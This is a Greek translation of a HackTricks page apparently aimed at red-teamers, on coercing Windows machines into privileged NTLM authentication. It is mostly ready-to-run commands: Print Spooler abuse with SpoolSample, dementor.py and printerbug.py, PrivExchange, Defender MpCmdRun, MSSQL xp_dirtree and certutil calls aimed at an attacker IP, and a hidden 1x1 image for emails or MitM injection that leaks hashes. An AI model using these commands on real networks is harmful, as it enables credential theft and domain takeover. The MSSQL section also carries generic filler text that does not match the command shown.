 # Εξαναγκασμός Προνομιούχας Ταυτοποίησης NTLM

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Εργάζεστε σε μια **εταιρεία κυβερνοασφάλειας**; Θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks**; Ή θέλετε να έχετε πρόσβαση στην **τελευταία έκδοση του PEASS ή να κατεβάσετε το HackTricks σε μορφή PDF**; Ελέγξτε τα [**ΠΑΚΕΤΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Ανακαλύψτε την [**Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Εγγραφείτε** στην [**💬**](https://emojipedia.org/speech-balloon/) [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στο [αποθετήριο hacktricks](https://github.com/carlospolop/hacktricks) και [αποθετήριο hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## SharpSystemTriggers

Το [**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) είναι μια **συλλογή** από **τροποποιητές απομακρυσμένης ταυτοποίησης** που έχουν κωδικοποιηθεί σε C# χρησιμοποιώντας τον μεταγλωττιστή MIDL για να αποφευχθούν εξαρτήσεις από τρίτους.

## Κατάχρηση της Υπηρεσίας Spooler

Εάν η υπηρεσία _**Print Spooler**_ είναι **ενεργοποιημένη**, μπορείτε να χρησιμοποιήσετε ορισμένα ήδη γνωστά διαπιστευτήρια AD για να **ζητήσετε** από τον εκτυπωτικό διακομιστή του ελεγκτή του τον **ενημερωμένο** κατάλογο νέων εκτυπώσεων και απλά να του πείτε να **στείλει την ειδοποίηση σε κάποιο σύστημα**.\
Σημειώστε ότι όταν ο εκτυπωτής στέλνει την ειδοποίηση σε ένα αυθαίρετο σύστημα, χρειάζεται να **ταυτοποιηθεί έναντι** αυτού του **συστήματος**. Επομένως, ένας επιτιθέμενος μπορεί να κάνει την υπηρεσία _**Print Spooler**_ να ταυτοποιηθεί έναντι ενός αυθαίρετου συστήματος, και η υπηρεσία θα **χρησιμοποιήσει τον λογαριασμό του υπολογιστή** σε αυτήν την ταυτοποίηση.

### Εύρεση των Windows Servers στον τομέα

Χρησιμοποιώντας το PowerShell, αποκτήστε μια λίστα με τα Windows boxes. Οι διακομιστές είναι συνήθως προτεραιότητα, οπότε ας επικεντρωθούμε εκεί:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Εύρεση υπηρεσιών Spooler που ακούνε

Χρησιμοποιώντας μια ελαφρώς τροποποιημένη έκδοση του SpoolerScanner του @mysmartlogin (Vincent Le Toux) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), ελέγξτε αν η υπηρεσία Spooler ακούει:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Μπορείτε επίσης να χρησιμοποιήσετε το rpcdump.py σε Linux και να αναζητήσετε το πρωτόκολλο MS-RPRN.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Ζητήστε από την υπηρεσία να πιστοποιηθεί έναντι ενός αυθαίρετου υπολογιστή

Μπορείτε να συγκεντρώσετε το [**SpoolSample από εδώ**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
ή χρησιμοποιήστε το [**dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) του 3xocyte ή το [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) αν χρησιμοποιείτε Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Συνδυασμός με Απεριόριστη Αναθέση

Εάν ένας επιτιθέμενος έχει ήδη διαρρεύσει έναν υπολογιστή με [Απεριόριστη Αναθέση](unconstrained-delegation.md), ο επιτιθέμενος μπορεί να **κάνει τον εκτυπωτή να πιστοποιηθεί σε αυτόν τον υπολογιστή**. Λόγω της απεριόριστης αναθέσης, το **TGT** του **λογαριασμού υπολογιστή του εκτυπωτή** θα **αποθηκευτεί στη μνήμη** του υπολογιστή με απεριόριστη αναθέση. Καθώς ο επιτιθέμενος έχει ήδη διαρρεύσει αυτόν τον υπολογιστή, θα μπορεί να **ανακτήσει αυτό το εισιτήριο** και να το καταχραστεί ([Pass the Ticket](pass-the-ticket.md)).

## Εξαναγκασμός Πιστοποίησης RCP

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

Η επίθεση `PrivExchange` είναι αποτέλεσμα μιας ευπάθειας που βρέθηκε στο χαρακτηριστικό **PushSubscription** του **Exchange Server**. Αυτό το χαρακτηριστικό επιτρέπει στον διακομιστή Exchange να εξαναγκαστεί από οποιονδήποτε χρήστη του τομέα με ένα κουτί αλληλογραφίας να πιστοποιηθεί σε οποιοδήποτε καθορισμένο από τον πελάτη υπολογιστή μέσω HTTP.

Από προεπιλογή, η υπηρεσία **Exchange τρέχει ως SYSTEM** και έχει υπερβολικά προνόμια (συγκεκριμένα, έχει **δικαιώματα WriteDacl στην προηγούμενη έκδοση Cumulative Update πριν το 2019**). Αυτή η ευπάθεια μπορεί να εκμεταλλευτεί για να επιτρέψει την **ανακατεύθυνση πληροφοριών στο LDAP και στη συνέχεια την εξαγωγή της βάσης δεδομένων NTDS του τομέα**. Σε περιπτώσεις όπου η ανακατεύθυνση στο LDAP δεν είναι δυνατή, αυτή η ευπάθεια μπορεί ακόμα να χρησιμοποιηθεί για την ανακατεύθυνση και πιστοποίηση σε άλλους υπολογιστές εντός του τομέα. Η επιτυχής εκμετάλλευση αυτής της επίθεσης παρέχει άμεση πρόσβαση στον Διαχειριστή του Τομέα με οποιονδήποτε πιστοποιημένο λογαριασμό χρήστη του τομέα.

## Εντός των Windows

Εάν βρίσκεστε ήδη μέσα στο μηχάνημα Windows, μπορείτε να αναγκάσετε τα Windows να συνδεθούν σε ένα διακομιστή χρησιμοποιώντας προνομιούχους λογαριασμούς με:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL

Το MSSQL (Microsoft SQL Server) είναι ένα σύστημα διαχείρισης βάσεων δεδομένων που αναπτύχθηκε από τη Microsoft. Χρησιμοποιείται ευρέως για την αποθήκευση και διαχείριση δεδομένων σε επιχειρηματικές εφαρμογές. Οι επιθέσεις στο MSSQL μπορούν να προκαλέσουν σοβαρές ασφαλειακές προβληματικές καταστάσεις, όπως η πρόσβαση σε ευαίσθητα δεδομένα ή η αποκάλυψη πληροφοριών σύνδεσης. Είναι σημαντικό να λαμβάνονται μέτρα ασφαλείας για την προστασία του MSSQL και των δεδομένων που περιέχει.
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
Ή χρησιμοποιήστε αυτήν την άλλη τεχνική: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Είναι δυνατόν να χρησιμοποιηθεί το certutil.exe lolbin (υπογεγραμμένο από τη Microsoft εκτελέσιμο) για να εξαναγκαστεί η ελέγχου ταυτότητα NTLM:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## Εισαγωγή HTML

### Μέσω email

Εάν γνωρίζετε τη **διεύθυνση email** του χρήστη που συνδέεται σε μια μηχανή που θέλετε να παραβιάσετε, μπορείτε απλά να του στείλετε ένα **email με μια εικόνα 1x1** όπως:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
και όταν το ανοίξει, θα προσπαθήσει να πιστοποιηθεί.

### MitM

Εάν μπορείτε να εκτελέσετε μια επίθεση MitM σε έναν υπολογιστή και να εισάγετε HTML σε μια σελίδα που θα οπτικοποιήσει, μπορείτε να δοκιμάσετε να εισάγετε μια εικόνα όπως η παρακάτω στη σελίδα:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Αποκρυπτογράφηση NTLMv1

Εάν μπορείτε να καταγράψετε προκλήσεις NTLMv1, διαβάστε εδώ πώς να τις αποκρυπτογραφήσετε.\
_Να θυμάστε ότι για να αποκρυπτογραφήσετε NTLMv1, πρέπει να ορίσετε την πρόκληση του Responder σε "1122334455667788"_

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Εργάζεστε σε μια **εταιρεία κυβερνοασφάλειας**; Θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks**; Ή θέλετε να έχετε πρόσβαση στην **τελευταία έκδοση του PEASS ή να κατεβάσετε το HackTricks σε μορφή PDF**; Ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣΗΣ**](https://github.com/sponsors/carlospolop)!
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Εγγραφείτε** στην [**💬**](https://emojipedia.org/speech-balloon/) [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας στο hacking υποβάλλοντας PRs στο [αποθετήριο hacktricks](https://github.com/carlospolop/hacktricks) και [αποθετήριο hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
